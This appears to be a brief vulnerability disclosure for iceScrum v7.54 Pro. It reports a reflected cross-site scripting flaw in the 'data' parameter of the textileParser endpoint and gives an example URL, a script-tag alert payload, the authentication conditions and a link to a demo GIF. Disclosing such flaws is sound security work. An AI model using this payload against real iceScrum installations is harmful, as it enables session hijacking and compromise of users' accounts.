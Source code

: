 
Vulnerability: Reflected XSS via data parameter

URL: ```http://192.168.124.128/textileParser?data=test<script>alert(1)</script>```

Payload: ```test<script>alert(1)</script>```

Action to trigger: None

Version: ‎v7.54 Pro

Authenticated: Yes

User: Admin (possibly others)

Vulnerable Parameter: data

Vulnerability Location:

Vendor Website: https://www.icescrum.com/


Demo:
![](https://github.com/4rdr/proofs/blob/main/gifs/icescrum__v7.54_Reflected_XSS_via_data_parameter.gif)
